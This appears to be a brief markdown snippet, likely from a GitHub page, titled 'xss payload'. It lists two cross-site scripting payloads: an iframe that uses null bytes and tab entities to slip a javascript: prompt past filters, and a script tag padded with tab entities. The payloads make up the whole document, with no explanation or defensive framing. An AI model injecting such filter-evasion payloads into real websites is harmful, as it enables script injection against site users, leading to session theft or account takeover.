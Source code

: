 # xss payload

```
<iframe %00 src="&Tab;javascript:prompt("XSS BY Raja")&Tab;"%00>
<script/&Tab; src='https://github.com' /&Tab;></script>

```

